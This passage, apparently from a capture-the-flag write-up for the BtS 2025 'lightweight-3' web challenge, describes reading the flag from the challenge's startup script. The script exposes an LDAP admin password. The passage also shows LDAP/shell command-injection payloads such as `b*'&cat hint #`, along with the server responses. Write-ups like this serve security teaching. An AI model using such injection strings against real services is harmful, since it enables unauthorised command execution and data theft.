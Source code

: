 Gives:

```bash
#!/bin/bash

echo "BtSCTF{${FLAG_PREFIX}_gl4d_t0_s33_y0u_g0t_output_out_of_th3_comm4nd_1nj3ction}" > /root/flag.txt

cd /app/
echo Starting
/usr/sbin/service slapd start

sleep 1

ldapadd -Q -Y EXTERNAL -H ldapi:/// -f add-prism-schema.ldif
ldapadd -D cn=admin,dc=bts,dc=ctf -f base.ldif -x -w STYE0P8dg55WGLAkFobiwMSJKix1QqpH

sudo -u prism python3 -m gunicorn -b 0.0.0.0:8080 app:app
```

And it turns out that the flag is just: `BtSCTF{_gl4d_t0_s33_y0u_g0t_output_out_of_th3_comm4nd_1nj3ction}`

I wonder if it was unintended as if you `b*'&cat hint #` you get: `{"data":"Flag is in /root/flag.txt :)\n","image":null}` :trollface:

If they did not set the `${FLAG_PREFIX}` variable, then it would be empty and the flag correct, but if you `b*'|echo ${FLAG_PREFIX} #'` you get `{"data":"#)) -w STYE0P8dg55WGLAkFobiwMSJKix1QqpH\n","image":null}` (However I could not reproduce that value after the fact, it just gave "\\n")


## After the fact

While writing this, I see that we did not follow the inteded path. As outlined in the [Author Write-up](https://github.com/PWrWhiteHats/BtS-2025-Writeups/tree/master/web/lightweight-3/writeup) we apparently had to escalate to root in order to read the `/root/flag.txt` (as mentioned in the `hint.txt`). I guess the did not think about the `entrypoint.sh` file or forgot to implement the `$FLAG_PREFIX` thing.



# Source
You can find the source, which they posted after the ctf. There was only source for the first (I think). [BTS2025 Source - Github](https://github.com/PWrWhiteHats/BtS-2025-Writeups) 

